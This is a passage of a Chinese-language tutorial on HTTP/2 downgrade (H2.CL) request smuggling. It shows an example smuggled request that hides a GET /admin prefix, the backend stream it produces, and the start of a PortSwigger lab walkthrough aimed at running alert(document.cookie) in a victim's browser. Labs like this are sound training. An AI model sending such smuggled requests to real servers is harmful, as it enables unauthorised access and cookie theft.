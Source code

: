 如果我们以 HTTP/2 的格式发送如下请求：

```c
:method POST
:path   /example
:authority  vulnerable-website.com
content-type    application/x-www-form-urlencoded
content-length  0
GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10
x=1
```

那么此时后端请求数据报文将如下：

```c
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10
x=1GET / H
```

下面我们通过一个靶场进行演示介绍：

靶场地址：[https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling "https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling")

靶场介绍：此靶场容易受到请求走私的攻击，因为前端服务器会降低 HTTP/2 请求的级别，即使它们的长度不明确，要解决实验室问题，你需要执行请求走私攻击使受害者的浏览器从漏洞利用服务器加载并执行恶意 JavaScript 文件，调用 alert(document.cookie)，受害者用户每 10 秒访问主页一次。

解题过程：

Step 1：访问上面的靶场链接地址，让后点击"ACCESS THELAB"进入靶场

![img](assets/1706773318-bd2b0c66723a558ed8c67cc9d156171d.png)

Step 2：使用 Burp suite 抓包并尝试在 HTTP/2 请求的正文中添加`Content-Length:0` 头的方式尝试走私前缀信息，需要注意的是在发送请求之前要将协议设置为 HTTP/2

